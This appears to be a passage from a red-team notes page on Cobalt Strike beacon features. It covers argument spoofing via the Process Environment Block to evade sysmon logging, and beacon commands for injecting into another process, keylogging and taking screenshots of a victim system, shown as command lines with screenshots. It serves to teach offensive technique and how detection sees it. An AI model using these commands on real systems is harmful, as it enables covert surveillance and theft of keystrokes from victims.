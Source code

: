 ![](<../../.gitbook/assets/Screenshot from 2019-01-07 19-18-23.png>)

Note the differences in commandline parameters captured in sysmon vs procexp:

![](<../../.gitbook/assets/Screenshot from 2019-01-07 19-09-47.png>)

Argument spoofing is done via manipulating memory structures in Process Environment Block which I have some notes about:

{% content-ref url="../defense-evasion/masquerading-processes-in-userland-through-_peb.md" %}
[masquerading-processes-in-userland-through-\_peb.md](../defense-evasion/masquerading-processes-in-userland-through-\_peb.md)
{% endcontent-ref %}

{% content-ref url="../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md" %}
[exploring-process-environment-block.md](../../miscellaneous-reversing-forensics/windows-kernel-internals/exploring-process-environment-block.md)
{% endcontent-ref %}

### Inject

Inject is very similar to metasploit's `migrate` function and allows an attacker to duplicate their beacon into another process on the victim system:

{% code title="attacker@cs" %}
```csharp
beacon> help inject
Use: inject [pid] <x86|x64> [listener]

inject 776 x64 httplistener
```
{% endcode %}

Note how after injecting the beacon to PID 776, another session is spawned:

![](<../../.gitbook/assets/Peek 2019-01-07 20-16.gif>)

### Keylogger

{% code title="attacker@cs" %}
```csharp
beacon> keylogger 1736 x64
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-01-07 20-31-30.png>)

### Screenshot

{% code title="attacker@cs" %}
```csharp
beacon> screenshot 1736 x64
```
{% endcode %}
